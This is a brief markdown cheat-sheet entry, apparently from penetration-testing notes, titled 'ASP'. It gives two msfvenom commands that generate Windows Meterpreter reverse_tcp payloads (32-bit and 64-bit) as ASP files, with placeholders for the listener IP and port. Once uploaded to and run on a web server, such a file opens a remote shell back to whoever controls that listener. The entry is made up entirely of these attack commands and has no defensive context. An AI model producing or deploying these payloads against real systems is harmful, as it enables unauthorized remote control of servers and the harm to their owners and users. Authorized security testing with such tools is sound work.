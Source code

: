# ASP

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x86.asp`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x64.asp`